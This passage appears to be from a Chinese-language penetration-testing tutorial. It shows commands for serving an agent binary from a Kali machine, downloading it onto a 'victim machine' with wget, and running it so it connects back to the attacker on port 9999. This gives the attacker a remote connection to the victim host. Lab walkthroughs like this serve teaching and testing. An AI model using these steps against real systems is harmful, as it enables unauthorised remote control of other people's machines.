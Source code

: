 
受害机要运行客户的程序，需要先将客户端程序传入受害机中

在kali上启动一个http服务

```
python3 -m http.server 80
```
再去受害机上获取kali上的客户端

```
wget http://192.168.0.61/agent_linux_x64
```
![image](https://github.com/FeiNiao/feiniao.github.io/blob/master/_posts/images/h2NmDw8speJ18AzImxxU5gPWbZPPwx5Wt9vlPSHIm8I.png?raw=true)

在受害机上服于客户端执行权限

```
chmod +x agent_linux_x64

执行 ip为kali机 端口是kali的端口
./agent_linux_x64 -rhost 192.168.0.61 -rport 9999
```
在kali机上show一下，就可以看到一个连接

![image](https://github.com/FeiNiao/feiniao.github.io/blob/master/_posts/images/Nu39RhsrvtpbZCqpUSLOzqb3oLsfaP52x6MTZqh3U5c.png?raw=true)
